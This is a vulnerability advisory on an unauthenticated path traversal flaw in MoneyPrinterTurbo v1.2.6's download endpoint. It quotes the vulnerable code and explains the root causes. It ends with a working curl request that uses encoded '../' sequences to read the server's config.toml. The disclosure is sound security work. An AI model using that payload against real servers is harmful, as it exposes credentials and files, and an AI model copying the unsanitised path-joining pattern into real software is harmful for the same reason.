 A critical path traversal vulnerability (CWE-22) has been identified in the `/download/{file_path:path}` endpoint of MoneyPrinterTurbo. This vulnerability allows unauthenticated attackers to read arbitrary files on the server filesystem, potentially leading to complete system compromise through exposure of sensitive configuration files, source code, and credentials.

version: v1.2.6

## Affected Code

```python
# https://github.com/harry0703/MoneyPrinterTurbo/blob/v1.2.6/app/controllers/v1/video.py#L269
@router.get("/download/{file_path:path}")
async def download_video(_: Request, file_path: str):
    """
    download video
    :param _: Request request
    :param file_path: video file path, eg: /cd1727ed-3473-42a2-a7da-4faafafec72b/final-1.mp4
    :return: video file
    """
    tasks_dir = utils.task_dir()  # Returns <root>/storage/tasks
    video_path = os.path.join(tasks_dir, file_path)  # VULNERABLE: Direct path joining
    file_path = pathlib.Path(video_path)
    filename = file_path.stem
    extension = file_path.suffix
    headers = {"Content-Disposition": f"attachment; filename={filename}{extension}"}
    return FileResponse(
        path=video_path,
        headers=headers,
        filename=f"{filename}{extension}",
        media_type=f"video/{extension[1:]}",
    )
```

## Root Cause Analysis

The vulnerability occurs because:

1. **No Authentication Required**: The endpoint has no authentication checks (line 35 shows auth is commented out)
2. **Direct Path Construction**: The `file_path` parameter is directly joined with the tasks directory using `os.path.join()` without any validation or sanitization
3. **No Traversal Prevention**: The code does not check for `../` sequences or absolute paths
4. **No File Existence Validation**: While FastAPI's `FileResponse` handles file not found errors, it doesn't prevent accessing files outside the intended directory


An attacker can read sensitive configuration files:

```bash
curl "http://target:8080/api/v1/download/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fMoneyPrinterTurbo%2fconfig.toml"
```
